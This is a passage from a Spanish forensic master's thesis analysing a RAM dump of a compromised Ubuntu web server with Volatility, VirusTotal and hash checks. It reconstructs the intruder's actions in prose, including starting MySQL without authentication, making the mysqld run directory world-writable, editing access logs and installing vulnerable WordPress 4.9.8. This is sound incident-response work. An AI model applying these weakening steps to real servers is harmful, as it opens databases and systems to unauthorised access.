- Intenta matar el proceso 4539, digo intenta porque enlazando con el anterior estudio detectamos un denied en la linea `[22074531220184.22074] audit: type=1400 audit(1545415953.092:83): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4539 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0`, la cual se encuentra dentro del estudio del comando del apartado 3.4.5, donde indico lo siguiente `# Denegación de servicio SQL 10 de mayo de 2019 a las 06:39:15.104327 UTC`.
- se posiciona en `/`.
- Muestra de nuevo todos los procesos relativos a **<u style='color:red'>MySQL</u>**.
- Hace un `ls` (en adelante lista) los ficheros de /var/run/mysqld.
- lista una primera vez /run y después con paginación por fecha de modificación, claramente busca algo.
- Edita de nuevo Accesss.log.1
- Arranca mysql_secure_intallation.
- Lista el contenido de la carpeta actual, recordemos que su ultimo posicionamiento es `/`.
- Muestra el contenido del archivo /var/log/mysql/error.log, esta buscando si hay pistas de lo que esta realizando.
- busca ficheros php en la carpeta y subcarpetas donde está situado.
- Instala el paquete python cerbot **<u style='color:red'>Apache</u>**.
    - Destacar lo siguiente:
        - Es un complemento de **<u style='color:red'>Apache</u>** para Certbot.
        - El objetivo de Certbot, Let's Encrypt y ACME (Automated El protocolo Entorno de gestión de certificados) es para hacer posible para configurar un servidor HTTPS y hacer que obtenga automáticamente un Certificado de confianza del navegador, sin ninguna intervención humana. Esto es logrado ejecutando un agente de gestión de certificados en la web servidor.
        - Este agente se utiliza para:
            - Demostrar automáticamente a Let's Encrypt CA que usted controla el sitio web
            - Obtenga un certificado de confianza del navegador y configúrelo en su servidor web
            - Lleve un registro de cuándo caducará su certificado y renuévelo
            - Ayudarle a revocar el certificado si alguna vez fuera necesario.
- Reinicia el servicio de **<u style='color:red'>Apache</u>**.
- Lista los procesos de **<u style='color:red'>MySQL</u>**.
- Reinstala el servidor **<u style='color:red'>Apache</u>**.
- Busca paquete del servidor **<u style='color:red'>MySQL</u>** y con php.
- Intenta conectarse como root a **<u style='color:red'>MySQL</u>**. Cabe destacar que esto no es una práctica normal de un administrador entrar como root directamente.
- Introduce los caracteres #1546501785.
    - Relativo a esto, cabe destacar que las lineas de registro de apparmor, marcan números muy parecidos a este código.
- Realiza varias consultas, edita functions.php.
- Vuelve a ejecutar mySQL.
- Edita con `sudo` /etc/mysql/debian.
- Instala **<u style='color:red'>MySQL</u>**.
- Busca paquetes de **<u style='color:red'>MySQL</u>** que contengan la palabra php.
- se trae un archivo de wordpress 4.9.8.
    - **CVE-2018-1000773**.
- Busca paquetes relacionados con **<u style='color:red'>MySQL</u>**.
- Muestra el directorio actual donde está posicionado.
    - Si ejecuto este comando, es que estoy fuera de la consola, pudiendo ser un path transversal o entrar en la consola de metasploitable.
- Copia los ficheros del la ubicación actual al nivel superior.
- realiza una serie de acciones y extrae wordpress, lo instala.
- Instala de nuevo **<u style='color:red'>Apache</u>**.
- Vuelve a ejecutar **<u style='color:red'>MySQL</u>** com root.
- Se mueve a la ubicación donde se publican webs y es accesible por el puerto 80 /vat/html/www.
- Cambia permisos a /var/rin/mysqld a drxwrxwrxw (777).
    - Poner que todos los usuario puedan hacer lo que quieran con el servicio de mysql es dar "barra libre".
- Busca ficheros multimedia.
- Conecta mySQL con root.
- Inicia **<u style='color:red'>MySQL</u>** en modo seguro sin tener que autenticar.
- Reinicia **<u style='color:red'>Apache</u>** y arranca **<u style='color:red'>MySQL</u>**.
- Revisa Access.log y las 100 ultimas de syslog.
- Se coloca en /var/log/apache2/
- Lista el contenido de la carpeta.
- Vuelve a mirar en que carpeta esta situado.
- Crea la carpeta `/var/run/mysqld`
- Inicia el servidor **<u style='color:red'>MySQL</u>** en modo seguro sin autenticación ejecutándose en segundo plano.
- Mata el procese 3181, sale de **<u style='color:red'>MySQL</u>** y reinicia **<u style='color:red'>Apache</u>**.
- Instala php-mysql.
    - Este paquete proporciona un módulo **<u style='color:red'>MySQL</u>** para PHP.
    - PHP (acrónimo recursivo de PHP: preprocesador de hipertexto) es un lenguaje de programación de código abierto de propósito general que es especialmente adecuado para desarrollo web y puede integrarse en HTML.
- Muestra la hora del sistema.
- muestra archivos y carpetas de ap.
- Edita access.log.
- Verifica los ficheros de configuración de **<u style='color:red'>Apache</u>**.
- Arranca el servicio de **<u style='color:red'>MySQL</u>**.
- Edita php.ini de /etc/php/7.2/apache2/.
- Mata el proceso 4178.
- Consulta los últimos 100 registros de access.log.
- Vuelve a mostrar ficheros relativos a **<u style='color:red'>MySQL</u>** y lista las 100 ultimas lineas de sys.log
- Repite este paso 3 veces.
- Borrar el wordpress 4.9.8.
- Los siguientes procesos son claramente para realizar la captura de la memoria RAM, empezando a buscar evidencias.

**Conclusiones.**

1. Ha realizado acciones que vulneran el servicio **<u style='color:red'>MySQL</u>** y Apache.
    - Abre la puerta a poder acceder a las tablas sin necesidad de autenticación.
    - Concede todos los permisos a todos los usuarios a /run/nysqld
    - Elimina archivos de configuración de **<u style='color:red'>MySQL</u>**.
    - Numerosos reinicio de servicios web.
    - Modificación de Access.log
    - Modifica el fichero de configuración de WordPress.

2. Realiza búsquedas de archivos multimedia, como buscando información.

3. Añade un correo electrónico, test12312321@mailinator.com. un correo de un portal de Pruebas de flujo de trabajo de correo electrónico y SMS.

4. Acciones relativas a configuraciones.
    - Modificaciones de ficheros de configuración de php **<u style='color:red'>Apache</u>** y **<u style='color:red'>**<u style='color:red'>MySQL</u>**</u>**.
    - Buscar palabra POST en ficheros .php.
    - Utiliza una version de WordPress que se descubrió su vulnerabilidad el 6 de septiembre de 2018.

Considero que, por el momento, es casualidad de que una semana después de la instalación del servidor, sin realizarse una actualización posterior. Quizás debe de estar atento a este tipo de posibles vulnerabilidades. Hoy dia para el desarrollo web, Snyk revisa si las librerías que utilizas tienen vulnerabilidades. Tener alertas de este tipo siempre vienen bien para andar protegidos.

5. La hora que marca `linux_bash` no parece en cierta manera ser falsa, ya que marca la misma hora.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                                     

## 3.5. Búsqueda de procesos en funcionamiento de interés para el análisis.

### **3.5.1. Linux_pslist.**

A continuación vamos a proceder a enumerar los procesos en ejecución de la memoria capturada. para ello ejecutaremos el comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_pslist`. Al ejecutar linux_pslist, se obtiene una lista detallada de todos los procesos activos en el momento en que se tomó la imagen de la memoria. Esta lista incluye información valiosa como el PID (identificador de proceso), el nombre del proceso, el usuario que lo ejecuta, y los tiempos de inicio y finalización del proceso. Esta información es fundamental para entender el estado del sistema en un momento específico y es especialmente útil para identificar actividades sospechosas o maliciosas, como procesos desconocidos o inusuales en ejecución, que podrían indicar la presencia de malware o la intervención de un atacante. A continuación se adjunta el comando la salida de la terminal.

#### [3.5.1. Comando 001.](#84003005001001-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_pslist)

Una conclusión muy clara es que estos datos corroboran dos cosas, las fechas de linux_bash y los datos proporcionados por memmap con lo mismos.

1. Ya en memmap teníamos conocimiento de 11 procesos **<u style='color:red'>Apache</u>**. Se puede declarar que el primer síntoma de anomalía en el sistema es en la ejecución de kworker/0:0 con Pid 19056  siento la hora el **3 de enero de 2019 a las 4:24:46 UTC**.

2. Se procede a empezar a pintar la linea del tiempo. uniendo cronológicamente tanto `linux_bash` como `linux_pslist`.

3. Se llega a la conclusión de que el ataque verdaderamente ha venido por el servidor **<u style='color:red'>Apache</u>** y  no por un servidor SQL ya que las aplicación de **<u style='color:red'>MySQL</u>** estuvo sin ser modificada. Eso no descarta que al tener el acceso a las tablas sin necesidad de privilegios, provoque un error en el sistema y una vulnerabilidad en la entrada no deseada.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

            

### **3.5.2. Linux_pstree.**

En la sección anterior, hemos procedido a buscar todos los procesos activos, ahora procederemos a ver si hay relación entre ellos. Para ello ejecutaremos `linux_pstree`. Con este comando, se obtiene una estructura jerárquica que ilustra cómo los procesos están interconectados, incluyendo detalles como el identificador del proceso (PID), el nombre del proceso y los procesos hijos asociados. Esta visión jerárquica es esencial para entender la organización y la dinámica de los procesos en el sistema en el momento de la captura de la memoria. Es especialmente útil para identificar patrones anómalos o sospechosos, como procesos maliciosos que pueden estar ocultos o disfrazados bajo procesos legítimos. El comando a utilizar es `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_pstree`.
Una vez obtenido el comando se procederá a adjuntarse a modo de captura del comando ejecutado.

#### [3.5.2. Comando 001.](#84003005002001-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_pstree)

Analizando los datos obtenidos, encontramos un UserID 33, sabemos por defecto, las acciones por usuarios registrados en el sistema es a partir de l UserID 1000, en este caso nos encontramos con 33. Posteriormente, en la captura de la memoria cache o en la captura de la memoria, investigaremos quien es el usuario 33. Buscando por internet, he realizado un  `sudo nano /etc/passwd` para ver cual es el UserID predefinido para el ID 33 siendo este `www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin`, por lo que se puede reafirmar que el ataque ha sido a través del servidor **<u style='color:red'>Apache</u>**. De todas maneras, se recomienda probar a hacer un `linux_recover_filesystem` para ver que tenemos en el archivo original.

#### [3.5.2. Imagen 001.](#82003005002001-sudo-nano-etc-passwd)

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                   

### **3.5.3. Linux_recover_filesystem.**

Aunque no sea un proceso de interés procesos en funcionamiento de interés para el análisis propiamente dicho, ya que considero a procesos como archivos en ejecución por parte del sistema operativo, la sección anterior, recomienda hacer esta accion en este momento, asi que procederé a ello.

El comando `linux_recover_filesystem` permite a los analistas forenses recuperar archivos de una imagen de memoria del sistema. Al ejecutar `linux_recover_filesystem`, puedo extraer archivos y directorios que estaban presentes en el sistema de archivos en el momento en que se tomó la imagen de memoria. Esto incluye archivos que pueden haber sido eliminados o no estar inmediatamente visibles en un análisis superficial. La capacidad de recuperar archivos de este modo es crucial en investigaciones forenses, ya que permite a los analistas acceder a evidencia potencial que podría haber sido ocultada, eliminada o manipulada por un usuario o por un software malicioso. Esta herramienta es particularmente útil en casos de análisis de malware, investigaciones de intrusiones y recuperación de datos. En este caso el comando a usar en la consola es `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_recover_filesystem --dump-dir /home/jrodg85/volcado-datos/`, donde con `--dump-dir /home/jrodg85/volcado-datos/` vamos a dirigir el volcado de datos a la carpeta que hemos creado en `/home/jrodg85/`.

#### [3.5.3. Imagen 001.](#82003005003001-volcado-de-datos) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [3.5.3. Imagen 002.](#82003005003002-cantidad-de-archivos-recuperados)

Como podemos ver, esta es la distribución de las carpetas que se han descargado cuando se ha ejecutado el comando, en vez de verlo de esta manera, considero realizar a `/home/jrodg85/volcado-datos/` un tree, de modo que podremos ver de manera ordenada. El comando a ejecutar desde `/home/jrodg85/volcado-datos/`, será `sudo tree ./ > /home/jrodg85/informe-tree.txt` ya que de este modo obtendremos un informe del comando para poder analizarlo paralelamente. Debido a que la salida del comando es de 16390 lineas, se procederá a realizar una referencia dentro al archivo para que pueda ser analizado.

#### [3.5.3. Imagen 003.](#82003005003003-passwd-de-volcado) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [3.5.3. Imagen 004.](#82003005003004-comprimiendo-datos)

#### [3.5.3. Referencia 019.](#85019-informe-tree)

Se pueden llegar a las siguientes conclusiones:

1. Los servicios que por defecto arrancan el ser servidor, los alojados en `/etc/init.d/` son los siguientes:
    - acpid
    - apache2
    - apache-htcacheclean
    - apparmor
    - apport
    - atd
    - console-setup.sh
    - cron
    - cryptdisks
    - cryptdisks-early
    - dbus
    - ebtables
    - grub-common
    - hibagent
    - hwclock.sh
    - irqbalance
    - iscsid
    - keyboard-setup.sh
    - kmod
    - lvm2
    - lvm2-lvmetad
    - lvm2-lvmpolld
    - lxcfs
    - lxd
    - mdadm
    - mdadm-waitidle
    - mysql
    - open-iscsi
    - open-vm-tools
    - plymouth
    - plymouth-log
    - postfix
    - procps
    - rsync
    - rsyslog
    - screen-cleanup
    - ssh
    - udev
    - ufw
    - unattended-upgrades
    - uuidd

2. Se confirma en `/etc/passwd` que:
    - El usuario UserID 33 es www-data `www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin`.
    - No hay mas usuarios después de creados en el servidor que aparte de Ubuntu `ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash`.

3. En `/home/jrodg85/volcado-datos/etc/sudoers.d/` encontramos el archivo `90-cloud-init-users` el cual indica `ubuntu ALL=(ALL) NOPASSWD:ALL`.
    - Esta accion viene por defecto en las instancias EC2, pero no viene normalmente dentro de los servidores independientes de Ubuntu. Esto lo que hace es no requerir contraseña cuando usas sudo con ese usuario, personalmente, no permitiría un NOPASSWD en un cloud server.

4. En `/home/` solo encontramos una carpeta llamada Ubuntu, la cual solo tiene 2 archivos:
    - accelerated-mobile-pages.0.9.97.19.zip
    - wordpress-4.9.8.tar.gz

Por ultimo voy a proceder a pasar por VirusTotal los archivos extraídos, para ello los comprimo en un .zip y ese archivo zip, lo pasaré por [virustotal.com](https://www.virustotal.com).

Primero de todo vamos a hacer un sha256sum para corroborar posteriormente que el archivo subido en cuestión tiene el mismo hash. Para ello ejecutaremos en ubuntu el comando `sha256sum /home/jrodg85/volcado-datos.zip`, de este modo obtenemos que el hash en sha256 del archivo es `5d842006ca8551f683e78c2b5474eb79145f64eb2167683151b6fadb0bce0062`

#### [3.5.3. Imagen 005.](#82003005003005-hash-archivo-zip)

Procedemos a subir el archivo a [virustotal.com](https://www.virustotal.com) obteniendo el siguiente resultado:

#### [3.5.3. Imagen 006.](#82003005003006-pantallazo-virustotal-1)

Encontramos al menos que dentro de el hay un virus detectado, por ello, para detectar exactamente procedemos a dividir cada una de las carpetas en ZIP para asi ir buscando nivel por nivel donde esta el archivo infectado. Los zip que estén limpios procederé a descartarlos y eliminarlos, los positivos, les haré un pantallazo.

Haciendo el proceso en primer nivel, se detecta que la carpeta `var` contiene, al menos un virus, se adjunta pantallazo de corroboración.

#### [3.5.3. Imagen 007.](#82003005003007-pantallazo-virustotal-2)

Esta ha sido la única notificación de primer nivel encontrada, por lo que a continuación, se procederá a hacer la misma accion de segundo nivel, pero esta vez dentro de `/var`, de modo que las siguientes detecciones serán dentro de `/var`. Los análisis que resulten negativo se ignorarán y solo se marcarán lo que resulten con posible virus dentro del archivo.

Se detecta virus dentro de `/var/lib/`.

#### [3.5.3. Imagen 008.](#82003005003008-pantallazo-virustotal-3)

Se detecta virus dentro de `/var/www/`.

#### [3.5.3. Imagen 009.](#82003005003009-pantallazo-virustotal-4)

Se procede a realizar análisis dentro de `/var/lib/`.

Se detecta virus en `/var/lib/snapd/`.

#### [3.5.3. Imagen 010.](#82003005003010-pantallazo-virustotal-5)

Se procede a realizar análisis dentro de `/var/lib/snapd/`.

Se detecta virus en `/var/lib/snapd/snaps/`.

#### [3.5.3. Imagen 011.](#82003005003011-pantallazo-virustotal-6)

Se procede a realizar análisis dentro de `/var/lib/snapd/snaps/`.

Virus total no detecta virus alguno, se puede entender como falsa alarma. Se ha procesado tanto comprimidos como sin comprimir todos los archivos independientes para corroborar con doble confirmación.

Se procede a realizar análisis dentro de `/var/www/`, como solo tenemos la carpeta html, procedemos entonces a realizar el análisis directamente en `/var/www/html/`. Para los archivos ocultos procedemos a quitar el pun

Se detecta virus en `/var/www/html/.htaccess`. Este archivo fue modificado por ultima vez el 21 de diciembre de 2018 a las 18:24:40 UTC.

#### [3.5.3. Imagen 012.](#82003005003012-pantallazo-virustotal-7)

#### [3.5.3. Imagen 013.](#82003005003013-archivo-htaccess)

En este caso hemos encontrado con un archivo dentro del sistema que puede resultar dañino para el cloud server.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                       

## 3.6. Listado de conexiones de red y conexiones sospechosas.

### **3.6.0. Introducción al listado de conexiones de red y conexiones sospechosas.**

La investigación relativo a las conexiones del servidor analizado, nos permitirá tratar de descubrir cuales son las conexiones que tenia el servidor en el momento de realizar la captura de la RAM, de lo que se puede aportar información valiosa a la hora de la realización de los informes.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                                    

### **3.6.1 Linux_arp.**

En este apartado, nos vamos a enfocar en descubrir la tabla ARP del servidor, para ello ejecutaremos `linux_arp`, gracias a este comando obtendremos una lista detallada de las entradas de ARP, que incluye información vital como las direcciones IP y las direcciones MAC asociadas. Esta tabla es esencial para entender cómo el sistema infectado o comprometido estaba comunicándose con otros dispositivos en la red. La información de la tabla ARP puede revelar conexiones de red previas, identificar dispositivos dentro de la red local con los que el sistema interactuó, y puede ser particularmente útil para rastrear la actividad de red sospechosa o maliciosa. El comando usado en este caso es `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_arp`. Se adjunta imagen de pantallazo del mismo.

#### [3.6.1. Imagen 001.](#82003006001001-linux-arp)

Se observa que la VM ha enviado paquetes a las direcciones 172.31.32.1 y 172.31.33.128. Tenemos 0.0.0.0 por lo que hay conexión a una red externa.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                           

### **3.6.2 Linux_ifconfig.**

En este apartado lo que se va a realizar es ver cual es la dirección IP del cloud server dentro de su red. Para ello usare el comando `linux_ifconfig`. Con este comando se va a obtener cuatro datos. El primero de ello es la interfaz de conexión. El segundo es la dirección IP. El tercero es la dirección MAC. El cuarto consulta si ese interfaz está en modo promiscuo, es decir, comprobará si dentro de la red, puede ver todos los paquetes del dominio de difusión. El comando que utilizaremos en este caso es `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_ifconfig`, viene a recordar el comando `ifconfig` el cual revela toda la información de red. Se adjunta imagen de pantallazo del mismo.

#### [3.6.2. Imagen 001.](#82003006002001-linux-ifconfig)

Un breve análisis de este comando es el siguiente:
1. Solo tiene una interfaz de conexión de red conectada, `eth0`.
    - `lo` es una dirección IP lógica y es la de localhost, como en el apartado anterior hemos encontrado también la etiqueta `lo`, podemos intuir que es de loopback o similar. Se puede considerar un dato desechable en ese sentido.
2. La dirección IP de la VM es 172.31.38.110.
3. La dirección MAC de la VM es 06:4c:cd:f6:51:2c. Se podría estudiar la interfaz de red de esta máquina y hacer un MAC lookup, pero directamente voy a considerar que, al tener constancia de que es una VM, puedo acreditar directamente que es una MAC virtual. Ya que las máquinas virtuales suelen comunicarse a través de una red interna virtual a la red exterior, usando todos ellos la misma MAC física, y siendo esta red interna virtual como un Switch que distribuye a necesidad dentro de la red.
4. La interfaz de red `eth0` no esta en modo promiscuo o monitor.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                  

### **3.6.3 Linux_netstat.**

En este apartado procederemos a tratar de tener una vision detallada de las conexiones de red, para ello ejecutaremos el comando `linux_netstat`. Con este comando, obtendremos información de  todas las conexiones TCP y UDP activas, incluyendo direcciones IP y puertos locales y remotos, así como el estado de estas conexiones. Esta información es crucial para comprender con qué otros sistemas y servicios estaba interactuando el sistema en cuestión. Es especialmente valioso para identificar comunicaciones sospechosas o no autorizadas, como conexiones a direcciones IP desconocidas o el uso de puertos inusuales, que podrían indicar actividad maliciosa, como exfiltración de datos, comando y control de malware, o accesos no autorizados. El comando a utilizar es `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_netstat`. Se hace captura del comando.

#### [3.6.3. Comando 001.](#84003006003001-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_netstat)

Se procede a realiza una limpieza de datos del comando anterior, quedando de la siguiente manera.

#### [3.6.3. Comando 002.](#84003006003002-resumen-del-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_netstat)

Analizando las conexiones se detecta lo siguiente:

A parte de la gran cantidad de conexiones a traves de los puertos principales de HTTP (80) y HTTPS (443). Se observan dos conexiones realizadas a través del servicio de apache2 con id del proceso 19952.

~~~
TCP      ::ffff172.31.38.110:   80 ::ffff18.195.165.56:41529 CLOSE_WAIT                apache2/19952
TCP      172.31.38.110   :46384 172.31.33.128   : 8080 ESTABLISHED               apache2/19952
~~~

1. Podemos una primera conexión que la dirección IP de de destino es 18.195.165.56, cerrada y esperando. El cloud server usa en este caso el puerto 80. el puerto por defecto para HTTP y remite al puerto 45219 de destino. La aplicación que esta conectada es apache2 con id 19952.
2. Podemos ver una segunda conexión que en el cloud server cuyo destino es 172.31.33.128. Esta conexión está establecida, por lo que hay comunicación. Esta asociado al puerto 46384, el cual es un puerto que no tiene una asignación determinada, sin embargo, en destino tiene establecido el puerto 8080, el cual es el puerto de reserva de HTTP. La aplicación que esta conectada es la misma que la anterior, apache2 con id 19952.
    - Personalmente me resulta extraño esta conexión a un puerto de origen excesivamente alto.

~~~
TCP      172.31.38.110   :   22 83.247.136.74   :16666 ESTABLISHED                  sshd/20483
TCP      172.31.38.110   :   22 83.247.136.74   :16666 ESTABLISHED                  sshd/20576
~~~

3. Me parece bastante extraño que hayan 2 conexiones establecidas al mismo puerto pero y a distintas aplicaciones, aunque reciban el mismo nombre.
    - Son dos conexiones al puerto 22 (SSH) a la ip 83.247.136.74 y puerto 16666. Sin embargo la aplicación de conexión es la misma (sshd) pero con dos Id distintas (20483 y 20576).

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                                         

# 4. Análisis del disco duro.

## Índice del capítulo 4. Análisis del disco duro.

**[Volver al Índice General.](#índice-general)**

---

                                      

## 4.0. Introducción al capítulo 4. Análisis del disco duro.

[Volver al Índice del capítulo 4. Análisis del disco duro.](#índice-del-capítulo-4-análisis-del-disco-duro)

[Volver al Índice General.](#índice-general)

---

                                        

## 4.1. Acciones previas al análisis del disco duro.

En el presente TFM, se nos ha proporcionado a los alumnos un archivo de captura de disco duro en formato `.E01`. Por otro lado, se nos ha proporcionado los resúmenes o **<u style='color:red'>hash</u>** en MD5 y en SHA1 de los archivos tal y como se muestra en la siguiente imagen.

#### [4.1 Imagen 001.](#82004001001-imagen-hash-archivos)

Como Podemos ver, los **<u style='color:red'>hash</u>** resúmenes del archivo del HDD, tememos los siguientes hashes en MD5 y en SHA1:

- **MD5:** 324ed7db769620e3fb55c027480d0ef3
- **SHA1:** 3398f90d2438230aaaf7b5e8ce0a01e456d9ca10

El **<u style='color:red'>hash</u>** tal y como se indica en los apuntes de la asignatura, en el módulo de Fases y metodología del análisis forense, durante la adquisición de evidencias digitales dice  lo siguiente:

Una vez generada la copia o clon del soporte original, el programa o el dispositivo hardware empleado en este proceso realiza el cálculo del **<u style='color:red'>CRC</u>** o del valor **<u style='color:red'>hash</u>** del soporte original y del destino, con la finalidad de garantizar que los dos son idénticos y que la copia se ha producido sin ningún error. Este cálculo puede realizarse sobre todo el conjunto de información contenida en el soporte original, o bien emplear solamente un conjunto de ficheros del total.

A su vez, en el glosario de términos la definición de **<u style='color:red'>hash</u>** es la siguiente:

Es una función matemática unidireccional que resume un mensaje de tamaño variable (por ejemplo, un archivo), en una representación de tamaño fijo. Es poco probable que dos ficheros distintos tengan la misma representación **<u style='color:red'>hash</u>**, lo cual significa que este valor puede utilizarse a efectos de comprobación de la **<u style='color:red'>integridad</u>** de un archivo (o de un sistema entero). Las funciones **<u style='color:red'>hash</u>** más conocidas son MD5 y SHA-1.

Una vez descargado el archivo de captura de la memoria RAM, procedemos a usar PowerShell para determinar el **<u style='color:red'>hash</u>** del archivo. Para ello usamos el comando  "Get-FileHash [Argumento] -Algorithm MD5". En nuestro caso hemos usado los siguientes comandos:

#### [4.1 Comando 001.](#84004001001-comando-hash-md5) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [4.1 Comando 002.](#84004001002-comando-hash-sha1)

Se puede observar en la siguiente imagen la respuesta de PowerShell de los hashes de MD5 y SHA1.

#### [4.1. Imagen 002.](#82004001002-imagen-hash-powershell)

Como conclusión podemos verificar que la **<u style='color:red'>integridad</u>** de la copia facilitada para realizar el TFM no ha sido vulnerada.

[Volver al Índice del capítulo 4. Análisis del disco duro.](#índice-del-capítulo-4-análisis-del-disco-duro)

[Volver al Índice General.](#índice-general)

---

  

## 4.2. Datos de interés del disco duro.

La herramienta para utilizar en este caso será Autopsy 4.21.0 para Windows. Arrancaremos la aplicación y generaremos un nuevo caso.

#### [4.2. Imagen 001.](#82004002001-nuevo-caso-autopsy)

Procedemos a la carga de datos y de la imagen de disco duro.

